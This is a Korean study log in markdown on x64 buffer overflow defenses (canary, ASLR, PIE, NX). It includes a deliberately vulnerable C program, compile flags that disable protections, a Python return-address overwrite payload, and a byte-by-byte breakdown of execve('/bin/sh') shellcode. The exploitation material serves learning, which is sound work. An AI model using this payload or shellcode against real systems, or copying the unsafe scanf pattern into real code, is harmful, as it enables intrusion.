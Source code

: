 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.




머신코드?
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05


***\x48\x31\xc0***
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?
\x31 ==> opcode 
\xc0 ==> ModR/M 바이트. (rax 두개 쓸거다
       =xor rax, rax
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***
\x48 ==> REX prefix
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'
       =movabs rbx, 0x0068732f6e69622f
***\x53***
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )
       = push rbx
***\x48\x89\xe7***
\x48
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111
       = mov rdi, rsp (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI
000	001	010	011	100	101	110	111

      
***\x48\x31\xf6***
\x48 익숙하죠?
\x31 ==> opcode xor r/m64, r64
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110
       = xor rsi, rsi (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)

***\x48\x31\xd2***
\x48
\x31
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010
      = xor rdx, rdx (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)
***\xb0\x3b***
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)
\x3b ==> 59(system call number 59.== execve)
      = mov al, 0x3b

시스템콜 넘버는
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.

***\x0f\x05***
      = syscall (opcode)

모두 합치면?
xor rax, rax
movabs rbx,  0x0068732f6e69622f
push rbx
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov al, 0x3b
syscall 




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


